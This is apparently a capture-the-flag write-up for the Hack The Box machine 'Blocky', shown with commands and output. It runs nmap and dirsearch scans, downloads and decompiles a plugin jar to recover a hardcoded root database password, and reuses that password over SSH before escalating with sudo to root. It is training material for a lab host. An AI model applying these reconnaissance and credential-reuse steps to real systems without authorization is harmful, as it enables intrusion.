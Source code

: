 ## -------------->> Blocky <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.37 -p-
-----------

    Nmap scan report for 10.10.10.37
    Host is up (0.14s latency).
    Not shown: 65530 filtered ports
    PORT      STATE  SERVICE   VERSION
    21/tcp    open   ftp       ProFTPD 1.3.5a
    22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
    |   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
    |_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
    80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.8
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: BlockyCraft &#8211; Under Construction!
    8192/tcp  closed sophos
    25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 184.05 seconds

// Navigating to http://10.10.10.37/ , display us a game website in development

// Rolling down the site there is a 'Login' button

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/1.png)

// Clicking on the login redirect us to http://10.10.10.37/wp-login.php

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/2.png)

// Lets search for some interesting files or directories with [dirsearch](https://github.com/maurosoria/dirsearch) tool (By maurosoria).

    $ python3 dirsearch.py -u http://10.10.10.37/ -t 100
-----

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.37/_21-08-12_09-31-32.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-12_09-31-32.log

    Target: http://10.10.10.37/

    ...
    
    [09:32:19] 200 -   19KB - /license.txt
    [09:32:27] 200 -   10KB - /phpmyadmin/
    [09:32:27] 200 -  745B  - /plugins/
    [09:32:29] 200 -    7KB - /readme.html
    [09:32:38] 200 -  380B  - /wiki/
    [09:32:38] 200 -    1KB - /wp-admin/install.php
    [09:32:38] 200 -    0B  - /wp-config.php
    [09:32:38] 200 -    0B  - /wp-content/
    [09:32:38] 200 -    1B  - /wp-admin/admin-ajax.php
    [09:32:38] 200 -   69B  - /wp-content/plugins/akismet/akismet.php
    [09:32:39] 200 -  965B  - /wp-content/uploads/
    [09:32:39] 200 -    0B  - /wp-cron.php
    [09:32:39] 200 -    2KB - /wp-login.php
    [09:32:39] 200 -   40KB - /wp-includes/

    Task Completed

// Found directories: /wiki/ , /plugins/ , /phpmyadmin/ , /wp-includes/ , 

// /Wiki-Underconstructin , /phpmyadmin/-phpmyadmin login , /wp-includes/-Wordpress plugins

// But, /plugins/ have 2 interesting files in him

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/3.png)

// Its two .jar(ziped java) files , Download them

    $ ls
    BlockyCore.jar  griefprevention-1.11.2-3.1.1.298.jar

// Lets unpack BlockyCore.jar

    $ jar -xf BlockyCore.jar 
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

// BlockyCore.jar generated 2 directories: META-ING & com

    $ tree
    .
    ├── BlockyCore.jar
    ├── META-INF
    │   └── MANIFEST.MF
    └── com
        └── myfirstplugin
            └── BlockyCore.class

// We can see that inside com there is another directory with file in him - 'BlockyCore.class'

// tring to see the file contant failed becouse its compiled, let decompile that file with online [java decompiler tool](http://www.javadecompilers.com/result)

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/4.png)

    package com.myfirstplugin;

    public class BlockyCore
    {
        public String sqlHost;
        public String sqlUser;
        public String sqlPass;

        public BlockyCore() {
            this.sqlHost = "localhost";
            this.sqlUser = "root";
            this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
        }
        public void onServerStart() {
        }
        public void onServerStop() {
        }
        public void onPlayerJoin() {
            this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
        }
        public void sendMessage(final String username, final String message) {
        }
    }

// We have credentials ! 

        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
        

// Since we know now we dilling with Wordpress CMS we can use [wpscan](https://wpscan.com/wordpress-security-scanner) to scan for vulnerabillities

    $ wpscan --url http://10.10.10.37/ --api-token YOUR_API_KEY --plugins-detection mixed -e
-----

    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|

             WordPress Security Scanner by the WPScan Team
                             Version 3.8.18
           Sponsored by Automattic - https://automattic.com/
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________

    [+] URL: http://10.10.10.37/ [10.10.10.37]
    [+] Started: Thu Aug 12 06:04:31 2021
    
    ...

    [i] User(s) Identified:

    [+] notch
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

// We have username 'notch' for Wordpress 

// Also can find in the main site

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/5.png)

// Since we have user, password and SSH service running, lets try to connect

    $ ssh notch@10.10.10.37

    notch@10.10.10.37's password: 
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

    notch@Blocky:~$ id
    uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

// We connected !!! And have user flag

    notch@Blocky:~$ cat user.txt 
    59fee097........................

### -----Privilleges Escalation-----

// running 'sudo -l' command we can see that this user can run sudo so simple 'sudo -i' gets us root


    notch@Blocky:~$ sudo -l
    [sudo] password for notch: 
    Matching Defaults entries for notch on Blocky:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User notch may run the following commands on Blocky:
        (ALL : ALL) ALL

    notch@Blocky:~$ sudo -i
    root@Blocky:~# 

// And the flag !

    root@Blocky:~# cat root.txt 
    0a9694a5b4......................
